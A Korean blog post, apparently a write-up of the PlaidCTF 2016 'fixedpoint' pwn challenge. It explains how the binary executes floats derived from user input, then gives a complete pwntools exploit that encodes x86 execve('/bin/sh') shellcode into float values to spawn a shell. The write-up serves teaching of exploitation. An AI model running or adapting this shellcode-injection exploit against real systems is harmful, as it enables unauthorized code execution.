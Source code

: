 ```yaml
---
layout: post
title: "PCTF 2016 - fixedpoint"
date: 2017-11-17 +0900
author: "JaeHyuk Lim"
categories: [ctf, pwn]
tags: [ctf, pwn, exploit]
---
```


## I. 바이너리 분석
  이번에도 재미있는 CTF문제를 하나 들고왔다. 사실 이번 문제는 그렇게 공격이 어려운 문제는 아니었는데, 쉽게 Floating 데이터가 어떻게 관리가 되는지, 그리고 ShellCode를 만들줄 아는지에 대한 문제였다.<br />
  일단, Hex-Ray로 디컴파일을 한 결과는 다음과 같다.<br />
  <br />
  ```C
  int __cdecl main(int argc, const char **argv, const char **envp)
  {
  signed int v4; // [sp+24h] [bp-Ch]@2
  signed int i; // [sp+28h] [bp-8h]@1
  int (*v6)(void); // [sp+2Ch] [bp-4h]@1

  v6 = (int (*)(void))mmap(0, 0x8000u, 7, 34, -1, 0);
  for ( i = 0; i <= 0x1FFF && __isoc99_scanf((const char *)&unk_80485F0, &v4); ++i )
    *((float *)v6 + i) = (long double)v4 / 1337.0;
  write(1, "here we go\n", 0xBu);
  return v6();
  }
  ```
  소스코드가 매우 짧다.<br />
  미리 이야기를 하지만 포너블이나 익스플로잇 관련된 기술에 접근할 때는, 해당 프로그램 또는 소스코드가 무슨 역할을 하는 녀석인지 확실하게 알고 진행해야한다.<br />
  이 코드는 mmap으로 0x8000만큼의 사이즈를 가지는 메모리 영역을 rwx 모든 권한을 할당한 채로 새로 매핑한다는 뜻이다.<br />
  그렇게 새로 매핑된 주소는 v6라는 변수 안에 들어간다. 이 v6 변수는 함수 포인터로 사용이 되는데, 우리가 입력한 정수 값이 1337.0과 나눠진 결과를 float 데이터로 4바이트씩 저장한다.<br />
  그리고 마지막에 해당 주소를 call함으로써 우리가 생성한 쉘코드를 실행한다.<br />
  <br />
  비슷한 문제가 사실 DEFCON CTF 2017 예선때도 하나 나왔었는데, 그 당시에는 나는 파이썬에서 그런게 가능한줄도 모르고 직접 손으로 계산해서 쉘코드를 만들었었다.<br />
  일단, 우리는 대학 컴퓨터 프로그래밍 시간에도 배웠겠지만 floating pointer는 지수영역과 가수영역이 따로 나뉘어져 연산되고 관리된다는 것을 알고 있다.<br /><br />
  <img src="http://www.c-jump.com/bcc/common/Talk2/Cxx/IEEE_754_fp_standard/const_images/ieee.gif" />
  <br />
  <br />
  그렇기 때문에 사실상 직접 계산해서 쉘코드를 만드는 것은 많이 복잡한편이다.<br />
  그래서 나는 Python의 struct모듈을 활용했는데, 이전까지는 Long, Integer 형태의 데이터만 pack, unpack하기 위해서 사용했었는데 이번에는 처음으로 Floating 옵션을 사용하게 되었다.<br />
  예를 들어서 위에 있는 1337을 나누는 코드를 내가 원하는 값이 나오게 만들려면 어떤 값을 넣어야할지 찾을 때, 다음과 같은 코드를 사용할 수 있다.<br />
  ```Python
  #!/usr/bin/python
  import struct
  from pwn import *

  pf32 = lambda x: struct.pack("<f", x)
  uf32 = lambda x: struct.unpack("<f", x)[0]
  pl32 = lambda x: struct.pack("<L", x)
  ul32 = lambda x: struct.unpack("<L", x)[0]

  ...
  deadbeef = ul32(pl32(uf32("\x41\x41\x41\x41") * 1337))
  ...
  ```
  이 코드의 실행결과는 다음과 같다.
  <br />16148<br />
  이를 fixedpoint 바이너리 안에 넣어서 확인해보면 다음과 같은 결과를 볼 수 있다.

  <br />
  > 0x41413e9d<br />
  이는 연산이 잘못된 것이 아니라, 상위 바이트는 우리가 표현할 수 있는 영역에 한계점이 있기 때문에 발생하는 오차이다.<br />
  이 때문에 우리는 조금 더 안정적인 쉘코드를 작성하려면, 적어도 상위 바이트는 임의로 변하지 않는 값을 넣어주어야 한다.<br />
  즉, 데이터 타입의 영향을 받지 않는 녀석을 선정해야한다.<br />


## II. Exploit
  ```Python
#!/usr/bin/python
import struct
from pwn import *

pf32 = lambda x: struct.pack("<f", x)
uf32 = lambda x: struct.unpack("<f", x)[0]
pl32 = lambda x: struct.pack("<L", x)
ul32 = lambda x: struct.unpack("<L", x)[0]

p = process("./fixedpoint")
shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\x31\xd2\xcd\x80"
gadget = asm("inc esi")
make_sh = []

print "[*] Disassemble Shellcode"
print "==================================================="
print disasm(shellcode)
print "===================================================\n\n"

make_sh.append(asm('mov edi, esp'))		# Stack Pointer Moved
make_sh.append(asm('mov al, 0x2f'))		# '/'
make_sh.append(asm('mov [edi], al'))		# mov [edi], al
make_sh.append(asm('inc edi'))

make_sh.append(asm('mov al, 0x62'))		# 'b'
make_sh.append(asm('mov [edi], al'))
make_sh.append(asm('inc edi'))

make_sh.append(asm('mov al, 0x69'))
make_sh.append(asm('mov [edi], al'))
make_sh.append(asm('inc edi'))

make_sh.append(asm('mov al, 0x6e'))
make_sh.append(asm('mov [edi], al'))
make_sh.append(asm('inc edi'))

make_sh.append(asm('mov al, 0x2f'))
make_sh.append(asm('mov [edi], al'))
make_sh.append(asm('inc edi'))

make_sh.append(asm('mov al, 0x73'))
make_sh.append(asm('mov [edi], al'))
make_sh.append(asm('inc edi'))

make_sh.append(asm('mov al, 0x68'))
make_sh.append(asm('mov [edi], al'))
make_sh.append(asm('inc edi'))

make_sh.append(asm('xor eax, eax'))
make_sh.append(asm('mov [edi], al'))

make_sh.append(asm('mov ebx, esp'))
make_sh.append(asm('push eax'))
make_sh.append(asm('push ebx'))
make_sh.append(asm('mov ecx, esp'))
make_sh.append(asm('mov al, 0xb'))
make_sh.append(asm('xor edx, edx'))
make_sh.append(asm('int 0x80'))

shell = ''.join(x for x in make_sh)
print "Final Shellcode"
print "==========================================="
print disasm(shell)
print "==========================================="

for data in make_sh:
	payload = data
	payload = payload.ljust(0x3, gadget)
	payload = payload.rjust(0x4, gadget)
	floating = ul32(pl32(uf32(payload) * 1337))
	p.sendline(str(floating))

p.sendline("Get Shell!!")
print p.recvuntil("go")

p.interactive()
  ```